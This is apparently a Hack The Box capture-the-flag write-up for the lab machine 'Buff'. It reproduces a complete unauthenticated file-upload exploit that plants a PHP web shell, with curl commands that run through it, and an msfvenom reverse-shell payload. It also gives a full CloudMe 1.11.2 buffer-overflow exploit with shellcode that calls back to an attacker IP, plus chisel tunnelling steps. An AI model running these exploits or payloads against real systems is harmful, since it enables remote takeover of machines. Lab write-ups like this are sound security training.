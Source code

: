 ```yaml
---
image: /assets/avatars/buff.png
title: Buff Writeup
author: Valerio Casalino
style: fill
tags: [Writeups, Hackthebox]
description: Writeup for Buff (Hackthebox)
---
```


# Buff

As always, an `nmap` scan is mandatory:

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.198
...
Nmap scan report for 10.10.10.198
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

Enumerating more ports, we can find:

```bash
sudo nmap -sC -sV -oN nmap/full -p- 10.10.10.198
...
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
```

Going to port 8080, we find a gym website:

![image-20201022200250269](/assets/buff/image-20201022200250269.png)

There is a login form, but before trying anything, we should fuzz around. In `contacts.php`, there is an important information about the framework used: "Gym Management Software 1.0". Looking with `searchsploit` or with a simple Google search, we find a [good unauthenticated](https://www.exploit-db.com/exploits/48506) RCE to use.

So, the point is that this software does not check for an authenticated user session when accessing `/upload.php`, so we can upload a file containing PHP code with a double extension to trick the extension white-list and with a custom Content-type to trick the mime checker. More info in [the exploit-db page](https://www.exploit-db.com/exploits/48506).

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/lolz.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=lolz'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'much-lolz.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Then run it:

```bash
python2 ./48505.py "http://10.10.10.198:8080/"
```

![image-20201022233828363](/assets/buff/image-20201022233828363.png)

If you immediately want the user flag, you should run this command.

```bash
curl -G --data-urlencode "telepathy=type C:\\Users\\shaun\\Desktop\\user.txt" "http://10.10.10.198:8080/upload/lolz.php"
```

So, you can put `nc.exe` in the target machine starting a python server on the attacker, using:

```bash
python3 -m http.server
```

You can find `nc.exe` in the package "windows-binaries" `/usr/share/windows/windows-binaries` (may vary).

Enumerate with [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and look at `shaun`'s download folder, there you can find `CloudMe_1112.exe`, with a `searchsploit` we can find the [great privesc exploit](https://www.exploit-db.com/exploits/48389). We have to edit some infos

```bash
# Put the output in the python file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
```

So in the end the python file should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
payload =  b""
payload += b"\xda\xc0\xba\x4c\x4d\xf4\xbe\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x1a"
payload += b"\x5e\x16\x4b\x5e\x88\x54\xb4\x9e\x49\x39\x3c\x7b"
payload += b"\x78\x79\x5a\x08\x2b\x49\x28\x5c\xc0\x22\x7c\x74"
payload += b"\x53\x46\xa9\x7b\xd4\xed\x8f\xb2\xe5\x5e\xf3\xd5"
payload += b"\x65\x9d\x20\x35\x57\x6e\x35\x34\x90\x93\xb4\x64"
payload += b"\x49\xdf\x6b\x98\xfe\x95\xb7\x13\x4c\x3b\xb0\xc0"
payload += b"\x05\x3a\x91\x57\x1d\x65\x31\x56\xf2\x1d\x78\x40"
payload += b"\x17\x1b\x32\xfb\xe3\xd7\xc5\x2d\x3a\x17\x69\x10"
payload += b"\xf2\xea\x73\x55\x35\x15\x06\xaf\x45\xa8\x11\x74"
payload += b"\x37\x76\x97\x6e\x9f\xfd\x0f\x4a\x21\xd1\xd6\x19"
payload += b"\x2d\x9e\x9d\x45\x32\x21\x71\xfe\x4e\xaa\x74\xd0"
payload += b"\xc6\xe8\x52\xf4\x83\xab\xfb\xad\x69\x1d\x03\xad"
payload += b"\xd1\xc2\xa1\xa6\xfc\x17\xd8\xe5\x68\xdb\xd1\x15"
payload += b"\x69\x73\x61\x66\x5b\xdc\xd9\xe0\xd7\x95\xc7\xf7"
payload += b"\x18\x8c\xb0\x67\xe7\x2f\xc1\xae\x2c\x7b\x91\xd8"
payload += b"\x85\x04\x7a\x18\x29\xd1\x2d\x48\x85\x8a\x8d\x38"
payload += b"\x65\x7b\x66\x52\x6a\xa4\x96\x5d\xa0\xcd\x3d\xa4"
payload += b"\x23\xf8\xcb\xa8\x80\x94\xc9\xb4\xc5\x4d\x47\x52"
payload += b"\x63\x9e\x01\xcd\x1c\x07\x08\x85\xbd\xc8\x86\xe0"
payload += b"\xfe\x43\x25\x15\xb0\xa3\x40\x05\x25\x44\x1f\x77"
payload += b"\xe0\x5b\xb5\x1f\x6e\xc9\x52\xdf\xf9\xf2\xcc\x88"
payload += b"\xae\xc5\x04\x5c\x43\x7f\xbf\x42\x9e\x19\xf8\xc6"
payload += b"\x45\xda\x07\xc7\x08\x66\x2c\xd7\xd4\x67\x68\x83"
payload += b"\x88\x31\x26\x7d\x6f\xe8\x88\xd7\x39\x47\x43\xbf"
payload += b"\xbc\xab\x54\xb9\xc0\xe1\x22\x25\x70\x5c\x73\x5a"
payload += b"\xbd\x08\x73\x23\xa3\xa8\x7c\xfe\x67\xd8\x36\xa2"
payload += b"\xce\x71\x9f\x37\x53\x1c\x20\xe2\x90\x19\xa3\x06"
payload += b"\x69\xde\xbb\x63\x6c\x9a\x7b\x98\x1c\xb3\xe9\x9e"
payload += b"\xb3\xb4\x3b"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We need to run a http reverse tunnel using [chisel](https://github.com/jpillora/chisel/releases):

```bash
# On attacker
./chisel-linux server -p 8080 -reverse
```

![image-20201023002602151](/assets/buff/image-20201023002602151.png)

```powershell
# On victim
.\chisel.exe client 10.10.14.51:8080 R:8888:127.0.0.1:8080
```

![image-20201023002643050](/assets/buff/image-20201023002643050.png)

Now we can run the exploit on attacher machine!

![image-20201023025910927](/assets/buff/image-20201023025910927.png)

Hopping to another shell we have to wait for connections on netcat, then run the exploit above! We'll get a reverse shell as root :) so... profit.
